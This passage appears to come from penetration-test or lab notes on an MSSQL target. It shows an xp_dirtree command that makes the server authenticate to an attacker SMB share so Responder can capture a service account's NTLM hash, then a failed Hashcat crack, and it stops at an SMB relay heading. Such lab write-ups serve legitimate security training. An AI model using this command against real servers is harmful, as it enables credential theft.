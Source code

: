 We tried an XP_DIRTREE Hash Stealing attack as outlined in the [[Attacking SQL Databases]] module from HTB Academy, and using Responder, we got the hash of the user `svc_web_staging`.

```
EXEC master..xp_dirtree '\\10.8.4.157\share\'
```

_Tried to attack using the XP_SUBDIRS Hash Stealing method as well, but failed.._

<img src="attachments/bfd558906b7a1fab984c4c310d315feb.png" />

We tried to crack it using Hashcat but failed.

<img src="attachments/26e5711123916c1825f0f35e35e33b4a.png" />


### SMB Relay Attack 
